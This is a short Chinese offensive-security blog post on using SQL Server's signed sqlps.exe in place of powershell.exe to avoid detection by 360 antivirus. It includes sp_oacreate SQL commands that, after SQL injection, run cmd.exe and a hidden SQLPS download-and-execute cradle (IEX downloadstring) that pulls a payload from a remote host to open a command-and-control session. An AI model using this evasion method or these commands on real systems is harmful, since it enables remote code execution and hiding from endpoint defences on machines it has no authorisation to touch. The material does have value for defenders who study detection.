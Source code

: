 ```yaml
---
layout: default
title: sqlps替代powershell
tags: bypass
---
```


## 0x00 前言

sql server 默认安装后，会发现有一个 sqlps.exe：

![image-20220315190210816](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315190210.png)

此文件本身自带微软签名：

![image-20220315190237951](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315190237.png)

sqlps的功能，竟然是！启动 powershell？？？

![image-20220315190322987](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315190323.png)

**而且由于此文件无依赖，因此可以单独取出在无sql server机器上运行**。

## 0x01 sqlps 上线

之前使用 powershell 上线，360 必拦截：

![image-20220315191524076](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315191524.png)

使用sqlps，360无反应且能正常上线：

![image-20220315191648516](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315191648.png)



![image-20220315191725621](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315191725.png)

## 0x02 sp_oacreate

sql server 注入后提权的方法比较多，但是被杀软拦截的也比较厉害，xp_cmdshell会被拦，sp_oacreate也会被拦。

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:/windows/system32/cmd.exe'
```

![image-20220315192329929](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315192329.png)

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Users\Public\SQLPS.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(''http://192.168.80.138:80/a''))"'
```

![image-20220315193426383](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315193426.png)

成功上线，弊端是 sql server 默认为service权限，因此对很多目录包括sql server 默认目录都无法执行该程序，因此要提前上传sqlps至C:\Users\Public目录。
